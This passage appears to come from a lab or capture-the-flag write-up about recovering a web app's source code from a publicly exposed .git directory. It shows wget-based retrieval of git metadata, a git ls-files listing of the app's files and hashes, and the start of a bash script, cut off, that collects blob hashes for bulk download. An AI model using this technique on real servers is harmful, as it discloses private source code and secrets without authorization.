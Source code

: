 ```
mkdir app && cd ./app
git init
```

Then using the power we've recently discovered, we can `wget` all the files we want into our newly created `.git` folder and replace the `HEAD` and `index` files with the ones from the web server. I also grabbed the `config` and `description` files too for completeness sake. 

My `app` directory now should be treated as a git repo, allowing me to run any git commands I desire. One of which I can do is: `git ls-files --stage`, which shows me the contents of the index file as well as their respective hashes. I can also run a `git status` to see what files are edited and deleted since we have yet to grab all the `blobs` from the object folder. 

*output of git ls-files --stage*

```
100755 fc46c46e55ad48869f4b91c2ec8756e92cc01057 0       Dockerfile
100755 dd5520ca788a63f9ac7356a4b06bd01ef708a196 0       Pipfile
100644 47709845a9b086333ee3f470a102befdd91f548a 0       Pipfile.lock
100755 e69de29bb2d1d6434b8b29ae775ad8c2e48c5391 0       app/__init__.py
100644 dc50d7a866d4c0608506bf049ac504a76551075b 0       app/server.py
100755 a844f894a3ab80a4850252a81d71524f53f6a384 0       app/templates/404.html
100644 1df0934819e5dcf59ddf7533f9dc6628f7cdcd25 0       app/templates/admin.html
100644 b9cfd98da0ac95115b1e68967504bd25bd90dc5c 0       app/templates/admininvalid.html
100644 bb830d20f197ee12c20e2e9f75a71e677c983fcd 0       app/templates/adminlist.html
100644 5033b3048b6f351df164bae9c7760c32ee7bc00f 0       app/templates/base.html
100644 10917973126c691eae343b530a5b34df28d18b4f 0       app/templates/forum.html
100644 fe3dcf0ca99da401e093ca614e9dcfc257276530 0       app/templates/home.html
100644 779717af2447e24285059c91854bc61e82f6efa8 0       app/templates/lock.html
100644 0556cd1e1f584ff5182bbe6b652873c89f4ccf23 0       app/templates/login.html
100644 56e0fe4a885b1e4eb66cda5a48ccdb85180c5eb3 0       app/templates/navbar.html
100755 ed1f5ed5bc5c8655d40da77a6cfbaed9d2a1e7fe 0       app/templates/unauthorized.html
100644 c980bf6f5591c4ad404088a6004b69c412f0fb8f 0       app/templates/unlock.html
100644 470d7db1c7dcfa3f36b0a16f2a9eec2aa124407a 0       app/templates/userinfo.html
100644 48847a686dddb92c50b91f7fa4693de27e02c67f 0       app/util.py
```

Now that I have access to all the hashes and files, and since we understand how git works and where the `blobs` are being stored - we have all the information we need to grab the files from the web server. However, there are quite a few files and doing so manually would be very tedious. So I wrote a bash script to do it for me instead!

```sh
#!/bin/bash

myArray=()
myArray+=("fc46c46e55ad48869f4b91c2ec8756e92cc01057")
myArray+=("Dockerfile")
myArray+=("dd5520ca788a63f9ac7356a4b06bd01ef708a196")  
myArray+=("Pipfile")
myArray+=("47709845a9b086333ee3f470a102befdd91f548a")        
myArray+=("Pipfile.lock")
myArray+=("e69de29bb2d1d6434b8b29ae775ad8c2e48c5391")        
myArray+=("app/__init__.py")
myArray+=("dc50d7a866d4c0608506bf049ac504a76551075b")        
myArray+=("app/server.py")
myArray+=("a844f894a3ab80a4850252a81d71524f53f6a384")        
myArray+=("app/templates/404.html")
myArray+=("1df0934819e5dcf59ddf7533f9dc6628f7cdcd25")        
myArray+=("app/templates/admin.html")
myArray+=("b9cfd98da0ac95115b1e68967504bd25bd90dc5c")        
myArray+=("app/templates/admininvalid.html")
myArray+=("bb830d20f197ee12c20e2e9f75a71e677c983fcd")        
myArray+=("app/templates/adminlist.html")
myArray+=("5033b3048b6f351df164bae9c7760c32ee7bc00f")        
myArray+=("app/templates/base.html")
```